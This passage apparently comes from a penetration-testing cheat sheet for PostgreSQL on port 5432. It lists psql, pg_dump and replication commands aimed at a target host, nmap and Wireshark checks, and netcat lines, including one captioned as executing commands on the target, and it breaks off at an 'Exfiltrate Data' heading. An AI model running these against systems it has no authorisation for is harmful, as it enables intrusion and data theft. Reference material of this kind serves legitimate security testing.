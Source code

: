     ```bash
    psql -h <target_ip> -p 5432 -U <username> -W <password> -d <database_name>
    ```
*   **Backing Up Database:** Creates a backup of the specified PostgreSQL database.

    ```bash
    pg_dump -h <target_ip> -p 5432 -U <username> -W <password> -d <database_name> > backup.sql
    ```
*   **Restoring Database:** Restores a database from a backup file.

    ```bash
    psql -h <target_ip> -p 5432 -U <username> -W <password> -d <database_name> -f backup.sql
    ```
* **Replicating Data:** Creates a base backup of a PostgreSQL database for replication purposes.

```bash
pg_basebackup -h <target_ip> -p 5432 -U <username> -W <password> -d <database_name> -D /var/lib/pgsql/data -Fp -Xs -P
```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 5432"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 5432
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 5432
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 5432 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 5432
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.
